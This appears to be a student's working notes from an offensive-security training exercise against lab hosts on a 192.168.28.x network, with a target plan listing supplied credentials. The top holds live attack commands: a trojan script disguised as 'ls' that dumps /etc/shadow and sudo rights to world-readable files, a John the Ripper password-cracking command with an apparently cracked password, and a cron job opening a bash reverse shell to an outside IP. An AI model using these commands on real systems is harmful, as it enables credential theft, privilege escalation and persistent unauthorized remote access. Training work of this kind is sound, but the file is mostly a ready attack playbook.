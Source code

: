 ## 
### vim /tmp/ls
    #!/bin/bash
    cp -r ~ /tmp
    chmod 777 /tmp/billybob
    sudo cat /etc/shadow > /tmp/shadows
    chmod 777 /tmp/shadows
    sudo -l > /tmp/sudooos
    chmod 777 /tmp/sudooos
__________________________________________________________________________________________________________________
## 
### papa john
    john --wordlist=/home/student/billybob/10-million-password-list-top-10000.txt crackthese.txt
su zeus

ghjcnbnenrf
__________________________________________________________________________________________________________________
## 
### disgusting gnu nano (select the vim option)
    * * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.28.135/33403 0>&1'
__________________________________________________________________________________________________________________
## 
### 
    
__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot:192.168.28.105
## --->T1: 192.168.28.27
## --->T2: 192.168.28.12

## Target Section:

### Pivot
### Hostname: Donovian-Terminal
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### PSP: rkhunter
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: unknown
### IP: 192.168.28.27
### OS: Linux ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: unknown
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

### T2
### Hostname: unknown
### IP: 192.168.28.12
### OS: Linux ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: unknown
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
